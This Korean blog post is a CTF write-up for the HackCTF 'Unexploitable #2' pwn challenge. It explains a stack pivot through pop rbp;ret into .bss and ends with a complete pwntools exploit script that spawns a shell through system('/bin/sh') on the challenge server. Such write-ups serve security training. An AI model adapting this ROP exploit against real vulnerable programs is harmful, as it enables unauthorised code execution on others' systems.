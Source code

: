 ```yaml
---
layout: post
title:  "HacCTF Unexploitable #2 write-up"
date:   2020-03-17 19:45:55
image:  hackctf_unex2.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] Unexploitable #2

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled.png)

NX 비트가 걸려있다.


**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%201.png)

바이너리를 실행시켜보면 fflush가 없다! 라는 의미의 문자열이 출력되고 입력을 한번 받는다. 그리고 바로 종료가 된다


**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%202.png)

메인을 보면 매우 간단하다. 저번 " Unexploitable #2 " 문제와 매우 유사한데, 차이점은 fflush함수가 없다는 것이다. 저번 문제에서는 .Load 영역에 존재하는 fflush 문자열을 이용하여 간편하게 풀수가 있었다.

하지만 이번에는 fflush가 없으므로 다른 방법으로 풀어야 한다. 또한 gift 함수가 마찬가지로 존재한다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%203.png)



### 2. 접근방법

---

저번에 3가지의 방법으로 문제를 풀었었다. 이 중 한가지를 이용하여 문제를 해결하면 된다.

우선, pop rbp; ret 가젯이 존재한다면, rbp값을 변조하여 fget의 버퍼 주소를 바꿔치기 가능하다. 

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%204.png)

rbp-0x10 영역에 입력한 데이터를 저장하므로, 우리는 .bss 영역의 주소를 구한뒤, + 0x10을 하여 rbp값을 저장시키면 된다. 그다음 메인으로 다시 돌아가 gitf함수의 system 함수를 이용하면 된다.

여기서 그냥 바로 gift함수로 가면 rdi에 이상한 값이 들어가게 되므로 rdi값을 저장하는 라인 이후를 ret에 넣어야 한다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%202/Untitled%205.png)

따라서 0x40067A 로 돌아가게 하면 된다.

정리를 해보면 다음의 시나리오를 통해 익스를 하면 된다.


- **시나리오**
    1. **ret를 pop rbp;ret 로 하여 fgets의 데이터 저장 변수를 바꿔치기 한다.**

        payload = ret(pop rbp;ret 주소) + (.bss주소+0x10) + (main+99 부분)

        sendline(payload)

    2.  **.bss영역에 /bin/sh를 저장한뒤 system함수 호출하기**
        - /bin/sh를 보내면 .bss 영역에 저장되는데 해당 영역 +0x10가 다음 ret위치이다.
        - 따라서 /bin/sh + 0x10에 pop rdi;ret 주소를 넣는다
        - 그다음 rdi에 .bss 주소가 들어가야 하므로 해당 bss 주소를 이어서 붙힌다
        - 그다음 ret를 gitf + 9 위치로 가게끔 한다

        payload =  "/bin/sh\x00" + 더미*0x10 + pop rdi;ret 주소 + .bss주소(rdi에 저장될) + (gift+9 ⇒ ret될 주소임)




### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3029)
    #p=process("./Unexploitable_2")
    #gdb.attach(p)
    
    pr=0x4005e0 # pop rbp;ret;
    prdi=0x400773 # pop rdi;ret;
    bss=0x601050+0x900
    main_99=0x4006EE
    p.recvuntil("\n")
    
    payload="A"*0x18
    payload+=p64(pr)
    payload+=p64(bss+0x10)
    payload+=p64(main_99)
    
    p.sendline(payload)
    payload2="/bin/sh\x00"
    payload2+="B"*0x10
    payload2+=p64(prdi)
    payload2+=p64(bss)
    payload2+=p64(0x40067F) #gift+9
    pause()
    p.sendline(payload2)
    p.interactive()



### 4. 몰랐던 개념

---

none